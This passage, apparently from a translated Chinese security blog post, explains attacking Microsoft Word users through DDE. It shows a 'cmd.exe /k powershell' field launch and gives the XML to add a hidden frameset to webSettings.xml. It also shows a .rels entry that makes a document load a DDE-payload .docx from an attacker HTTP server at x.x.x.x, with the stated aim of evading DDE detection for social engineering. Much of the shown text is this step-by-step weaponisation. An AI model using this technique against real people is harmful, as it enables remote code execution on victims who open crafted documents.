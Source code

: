 有趣的是，使用fldSimple以及**c:\windows\system32\cmd.exe /k powershell**来启动powershell时，powershell会在cmd窗口内部运行，你可以直接进入powershell控制台。这种情况与在已有的cmd实例中运行powershell一致，但与常见的DDE场景不同（普通DDE会同时生成cmd以及powershell）。与此同时，你会得到一个无法加载PSRedline模块的提示信息：“Cannot load PSReadline module. Console is running without PSReadline”，如下图所示。感兴趣的读者可以进一步挖掘这个信息。

[![](https://p5.ssl.qhimg.com/t019616800ff7296ecc.png)](https://p5.ssl.qhimg.com/t019616800ff7296ecc.png)

**3.4 无DDE**

现在最大的挑战来了，在文档中我们有没有可能完全不包含DDE或者DDEAUTO特征？答案是肯定的，并且这一点对社会工程学方法大有好处。MSWord考虑得非常周到，会提示用户禁用受保护的试图（protected view）以便查看文档内容。

为了完成这个任务，我们可以使用另一个传统（legacy）功能。在历史上，微软曾将Word设计为可以处理与任何文本有关的一站式应用程序，其中就包含创建Web页面功能。Word曾经是编写HTML的一种IDE工具，虽然生成的HTML不是特别优雅，但也能正常工作。当时引入的一个特性就是frames（框架）以及framesets（框架集）。在Word中，我们可以使用frames来将不同的HTML/Text页面加载到frames中，并且HTML会被自动解析，转化为Word格式的内容。在Word 2016或者更早版本的Word中，程序界面中已经不再包含这种功能，然而程序底层依然包含相应的解析例程。这意味着如果我们创建包含嵌入式frames的文档，Word仍然会自动处理这些数据。

想要插入frameset的话，我们需要编辑纯净版的.docx文档。首先，解压缩这个文档，然后打开其中的webSettings.xml文件。接下来我们可以修改并添加新的XML元素frameset：



```
&lt;w:frameset&gt;
    &lt;w:framesetSplitbar&gt;
        &lt;w:w w:val="60"/&gt;
        &lt;w:color w:val="auto"/&gt;
        &lt;w:noBorder/&gt;
    &lt;/w:framesetSplitbar&gt;
    &lt;w:frameset&gt;
        &lt;w:frame&gt;
            &lt;w:name w:val="1"/&gt;
            &lt;w:sourceFileName r:id="rId1"/&gt;
            &lt;w:linkedToFile/&gt;
        &lt;/w:frame&gt;
    &lt;/w:frameset&gt;
&lt;/w:frameset&gt;
```

这段内容应该插入到已有的&lt;w:webSettings&gt;元素内部，紧靠在&lt;w:optimizeForBrowser/&gt;&lt;w:allowPNG/&gt;元素之前。接下来，我们需要添加rId1关系（Relationship），将我们的文档链接到外部文档。我们需要将名为webSettings.xml.rels的新文件添加到word/_rels/目录中，以完成这个任务。

该文件的内容如下所示：



```
&lt;?xml version="1.0" encoding="UTF-8" standalone="yes"?&gt;
&lt;Relationships 
    xmlns="http://schemas.openxmlformats.org/package/2006/relationships"&gt;
    &lt;Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="http://x.x.x.x/simple.docx" TargetMode="External"/&gt;
&lt;/Relationships&gt;
```

我们链接的外部文档为包含DDE攻击载荷的.docx文件。这个例子中，我们会从地址为x.x.x.x的HTTP服务器加载simple.docx文件。首先，我们需要保存经过修改并已添加新内容的文件，然后更新整个.docx压缩包。现在，将经过修改的文档发给目标用户，等待用户打开。由于用户下载的文档包含MOTW（mark of the web）标记，因此该文档会在受保护视图状态下打开。然而，这种情况下，Word会检测到需要请求外部内容才能正确显示这个文件，因此会向用户提示：“链接的文件及其他功能已被禁用。要恢复此功能，你必须编辑此文件”。需要注意的是，这是来自Word的默认消息，我们没法操控这一点。
